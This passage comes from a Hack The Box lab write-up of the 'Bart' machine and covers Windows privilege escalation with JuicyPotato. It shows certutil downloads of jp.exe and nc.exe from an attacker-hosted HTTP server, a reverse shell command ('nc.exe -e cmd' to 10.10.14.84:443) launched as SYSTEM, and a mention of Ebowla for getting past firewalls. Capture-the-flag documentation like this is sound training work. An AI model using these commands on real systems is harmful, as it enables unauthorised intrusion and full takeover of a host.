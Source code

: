I just need to download the `jp.exe` binary and then transfer it on the target machine (if the firewall blocks the download, a custom binary can be created with **[Ebowla](https://github.com/Genetic-Malware/Ebowla){:target="_blank"}** to bypass it). I already know the command to get a **Reverse Shell** as the user with maximum privileges, but it doesn't work because I need a new **CLSID**. The **k4sth4** project repository I can find a **[list of CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro){:target="_blank"}** for each version of **Windows OS**, so by modifying the command I can already **Escalate Privilege** and access the flags I need to enter in the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/jp.exe .
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/jp.exe jp.exe
.\jp.exe
```

> **Attacker Machine**:

```bash
locate nc.exe /usr
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/nc.exe nc.exe

.\jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd 10.10.14.84 443"
# :(
```

> **Attacker Machine**:

```bash
sudo rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
.\jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd 10.10.14.84 443" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
whoami
hostname
ipconfig
```

<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_77.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_78.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_79.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_80.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_81.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />